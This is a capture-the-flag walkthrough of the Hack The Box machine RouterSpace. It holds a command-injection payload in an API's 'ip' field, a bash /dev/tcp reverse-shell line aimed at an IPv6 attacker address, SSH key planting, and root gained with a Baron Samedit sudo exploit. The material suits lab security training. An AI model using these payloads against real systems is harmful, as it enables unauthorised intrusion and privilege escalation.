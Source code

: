 # HTB: RouterSpace Walkthrough

## Box Info
- **Name:** RouterSpace  
- **OS:** [Linux](Linux.md)  
- **Difficulty:** Easy  
- **Release Date:** 26 Feb 2022  
- **Retire Date:** 09 Jul 2022  
- **Points:** 20

---

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.148
nmap -p 22,80 -sCV 10.10.11.148
```
- Ports Open: 22 (SSH), 80 (HTTP)
- Unknown SSH version with fingerprint
- HTTP returns headers like `X-Powered-By: RouterSpace`, no default CMS or tech found.

### Website - Port 80
- Landing page offers a **RouterSpace.apk** for download
- X-Headers are custom, possibly unique to this server

### Directory Brute Force
```
feroxbuster -u http://10.10.11.148 -X 'Suspicious activity detected !!!'
```
- `/cgi-bin`, `/admin`, `/images`, `/scripts`, `/includes` all found
- Nothing actionable from static analysis alone

---

## Android App Analysis

### APK Static Analysis
- Extract using apktool:
```
apktool d RouterSpace.apk
```
- Found domain `routerspace.htb` in cert
- App uses React Native
- Key JavaScript file: `assets/index.android.bundle`

### APK Dynamic Analysis
- Used **Genymotion** with API 27 to bypass HTTPS issues
- Set up proxy to forward traffic through Burp
- Observed endpoint:
```
POST /api/v4/monitoring/router/dev/check/deviceAccess
```
- Payload: `{ "ip": "<input>" }`

### SSTI / Command Injection
- Endpoint is vulnerable to **Command Injection**
- Successful payload: `{"ip": "$(id)"}`
- RCE confirmed, reverse shell blocked by firewall
- **IPv6 bypass** worked:
```
$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')
```

### Establish SSH Access
- Used RCE to inject SSH key into `/home/paul/.ssh/authorized_keys`
- Connected as `paul` via SSH

---

## Privilege Escalation

### Enumeration with LinPEAS
- CVE findings:
  - **CVE-2021-3156 (Baron Samedit)**: vulnerable
  - **CVE-2021-4034 (PwnKit)**: false positive (not SUID)
  - **CVE-2021-3560 (Polkit)**: missing components
  - **CVE-2021-22555 (NetFilter)**: exploit failed

### Exploit CVE-2021-3156 (Baron Samedit)
- Cloned PoC: https://github.com/CptGibbon/CVE-2021-3156
- Built locally and transferred to target
```
make
./exploit
```
- Got root shell!


## Notes
- Key concepts: APK reverse engineering, React Native apps, Genymotion + Burp proxy, command injection, classic sudo vulnerability (Baron Samedit)
- IPv6 reverse shell bypass was a smart trick
- Emulation + dynamic analysis was the hardest setup
